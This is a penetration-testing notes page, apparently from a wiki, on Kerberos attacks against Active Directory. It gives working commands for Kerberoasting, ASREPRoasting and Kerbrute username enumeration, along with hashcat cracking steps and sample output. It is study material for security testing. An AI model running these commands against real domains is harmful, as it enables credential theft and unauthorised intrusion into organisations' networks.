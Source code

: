 ```yaml
---
description: >-
  Service Principal Names (SPNs) are a unique identifier tied to each instance
  of a Windows service that can delegate to authenticate using Kerberos
---
```


# service principle names (SPNs)

They allow a service running on a server to authenticate to client computers on a network. These are used primarily in Active Directory (AD) environments.

An SPN is tied to the logon account of the service, meaning it's possible for a user account to have multiple SPNs if it's running multiple services. If a service or user account has an SPN, then it's possible for that service or account to request a Kerberos ticket. This is where the potential for abuse can occur, and it's the basis for what's known as a Kerberoasting attack.

## Kerberoasting

Kerberoasting is a method where an attacker, even one without a high privilege level, can request Kerberos tickets for any user that has an SPN associated with their account. Since these tickets are encrypted with the user's password, they can then be taken offline and subjected to a brute force attack.

#### Testing for SPNs

To test for SPNs, you can use Impacket's GetUserSPNs tool. The tool allows you to request and export SPNs associated with a user account for offline cracking.&#x20;

```bash
impacket-GetUserSPNs -dc-ip 10.199.101.5 <domain>.local/<user>
impacket-GetUserSPNs -request -dc-ip 192.168.95.11 <domain>.local/<user>
```

Replace `<domain>.local` with the Fully Qualified Domain Name (FQDN) of your target, and `<user>` with the username you're interested in. The `-dc-ip` parameter specifies the IP address of the domain controller you're targeting.

Once you've gathered the SPNs, you can then attempt to crack the passwords offline using a tool like Hashcat. Here's an example of how to use Hashcat for this:

```bash
hashcat -m 13100 hashes.txt /mnt/hgfs/Host_Desktop/ -o cracked.txt
```

In this example, `-m 13100` specifies the mode (in this case, Kerberos 5 TGS-REP etype 23), `hashes.txt` is the file containing the SPN hashes you've exported, and `-o cracked.txt` is the output file for any cracked passwords.

## ASREPRoasting

If you do not have valid domain credentials, you can look to check if any of the users you do currently have, if the account has "Does not require pre-authentication" enabled, allowing for ASREPRoasting. You can use `GetNPUsers.py` from `Impacket`

```
python3 GetNPUsers.py <domain>/<username> -dc-ip <domain-controller-ip> -request
```

If the target user has "Does not require Kerberos pre-authentication" enabled, you will receive an AS-REP hash that can be cracked offline.

### Install on Kali

`GetNPUsers.py` is not included in Kali Linux by default. However, it is part of the `Impacket` suite, which you can install on Kali. Here’s how to set it up:

{% code overflow="wrap" %}
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 -m pip install .
```
{% endcode %}

{% code overflow="wrap" %}
```bash
python3 examples/GetNPUsers.py <domain>/<username> -dc-ip <domain-controller-ip> -request
```
{% endcode %}

Responses might look like this

```
[-] User delta doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gama doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User reception doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User scans doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User temp doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## Kerbrute

Iff you do not have valid domain credentials to try the above, you can bruteforce attempts to request a Ticket GRanting Ticket (TGT) from the domain controller for each username in a provided list.

When a valid username is found, the domain controller responds differently compared to when the username does not exist. This response can confirm the validity of a username.

{% code overflow="wrap" %}
```bash
./kerbrute userenum --dc <domain-controller-ip> -d <domain> <userlist.txt>
```
{% endcode %}

It is not installed in kali though so you can get it by doing the following:

{% code overflow="wrap" %}
```bash
sudo apt update
sudo apt install golang-go
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
go build
```
{% endcode %}

Valid users will look like this:

```

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 10/09/24 - Ronnie Flathers @ropnop

2024/10/09 09:13:28 >  Using KDC(s):
2024/10/09 09:13:28 >   10.24.1.20:88

2024/10/09 09:13:30 >  [+] VALID USERNAME:       gemma@acmecorp
2024/10/09 09:13:33 >  Done! Tested 10279 usernames (1 valid) in 5.110 seconds
```

In this instance, a single user was found called "gemma"

